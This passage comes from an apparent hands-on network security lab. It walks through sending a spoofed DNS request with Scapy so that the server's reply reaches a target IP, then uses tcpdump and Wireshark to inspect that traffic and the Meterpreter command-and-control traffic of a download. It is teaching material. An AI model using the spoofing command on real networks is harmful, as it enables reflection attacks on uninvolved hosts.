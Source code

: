 * Run Python interpreter at `attacker`: `python`.
* Import `scapy`: `from scapy.all import *`
* Construct `send` command: `send(IP(dst="10.0.128.3",src="10.0.33.50")/UDP(dport=53)/DNS(rd=1,qd=DNSQR(qname="localhost")))`
  * `IP()` creates an IP packet with source and destination IP addresses: destination is the DNS server, **the source IP is the IP of the target**,
  * `UDP()` creates a UDP datagram with the destination port 53,
  * `DNS()` creates a DNS request for `localhost`.
* Scapy outputs `Sent 1 packets.`
* Switch to `target`. You can see some bytes received (`localhost` is among these bytes).

</details>

Run `tcpdump` at `target` to see the generated traffic.

<details open>
<summary>
Solution
</summary>

* Run `tcpdump -n -A 'port 53'` at `target`.
* Send again the packet from `attacker`. 
* `tcpdump` should display `IP 10.0.128.3.53 > 10.0.33.50.53: 0* 1/0/0 A 127.0.0.1 (43)`, i. e. answer from the DNS server to a request sent by attacker, not the target.
* `attacker` IP is not seen anymore.
* How can this type of attack be prevented?

</details>

## Traffic analysis

### Task: Inspect C2 traffic

Install `tcpdump` at the jumphost and capture C2 traffic between the target and jumphost at TCP port 80.

Run `ls` command in Meterpreter and then `download` again.

Stop the packet capture and transfer the trace to `attacker` to view it using Wireshark in GUI.

<details open>
<summary>
Solution
</summary>

* Install `tcpdump`: `sudo apt update && sudo apt install tcpdump`
* Start the capture: `sudo tcpdump 'port 80' -w capture.pcap`.
* Run the Meterpreter commands.
* Stop the capture by <kbd>Ctrl</kbd>+<kbd>C</kbd>.
* Check the trace contains packets: `tcpdump -r capture.pcap`.
* Copy the trace to `attacker`: `scp ubuntu@10.0.10.22:~/capture.pcap .` at attacker.

</details>

Open the packet trace in Wireshark and inspect traffic.\
Can you find packets carrying the downloaded files?
